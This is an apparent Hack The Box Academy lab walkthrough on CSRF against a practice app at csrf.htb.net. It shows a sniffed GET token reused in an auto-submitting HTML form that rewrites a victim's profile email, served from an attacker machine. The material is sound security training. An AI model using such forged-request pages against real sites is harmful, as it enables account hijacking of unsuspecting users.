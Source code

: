 ﻿Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Proceed to the end of this section and click on`Click here to spawn the target system!` or the`Reset Target` icon, then use the provided Pwnbox or a local VM with the supplied VPN key to be able to reach the target application and follow along. Then, configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to`http://csrf.htb.net` and log in to the application using the credentials below:

- Email: heavycat106
- Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click _Save_. You should see the below. ![image](https://academy.hackthebox.com/storage/modules/153/32.png)

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Save_ again.

You should see the below.

![image](https://academy.hackthebox.com/storage/modules/153/31.png)

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as`notmalicious_get.html`


```html
<html>
 <body>
 <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
 <input type="hidden" name="email" value="attacker@htb.net" />
 <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
 <input type="hidden" name="country" value="CSRF_POC" />
 <input type="hidden" name="action" value="save" />
 <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
 <input type="submit" value="Submit request" />
 </form>
 <script>
 document.getElementById("submitMe").submit()
 </script>
 </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows.


```shell-session
smoothment@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine`http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

![image](https://academy.hackthebox.com/storage/modules/153/34.png)

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.

# Question
----
![Pasted image 20250219130218.png](../../../../IMAGES/Pasted%20image%2020250219130218.png)
